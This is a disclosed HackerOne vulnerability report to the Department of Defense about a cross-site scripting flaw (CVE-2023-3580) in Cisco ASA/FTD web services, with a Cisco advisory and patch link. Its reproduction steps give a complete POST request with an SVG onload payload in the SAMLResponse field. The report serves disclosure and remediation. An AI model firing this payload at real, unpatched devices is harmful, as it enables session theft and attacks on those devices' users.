# XSS in Cisco Endpoint

## Report Details
- **Report ID**: 2233421
- **URL**: https://hackerone.com/reports/2233421
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-10-30T19:45:49.646Z
- **Disclosed**: 2023-11-17T18:08:49.437Z

## Reporter
- **Username**: r00tdaddy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Multiple vulnerabilities in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting (XSS) attacks against a user of the web services interface of an affected device. The vulnerabilities are due to insufficient validation of user-supplied input by the web services interface of an affected device. An attacker could exploit these vulnerabilities by persuading a user of the interface to click a crafted link. A successful exploit could allow the attacker to execute arbitrary script code in the context of the interface or allow the attacker to access sensitive, browser-based information. Note: These vulnerabilities affect only specific AnyConnect and WebVPN configurations. For more information, see the Vulnerable Products section.

## References
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe

## Impact

With this vulnerability, an attacker can steal users cookies, redirect users to a malicious website, or execute arbitrary javascript.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2023-3580

## Steps to Reproduce
1.) Perform the following post request. 

POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: ███████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Hackerone: R00tdaddy
Content-Length: 72
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br

SAMLResponse=%22%3E%3Csvg/onload=alert(/2XUkWJ29OE88uyTbdZ3a2UmA828/)%3E

SAML Response pops up in the browser.

## Suggested Mitigation/Remediation Actions
Patch : https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe



## Attachments
No attachments
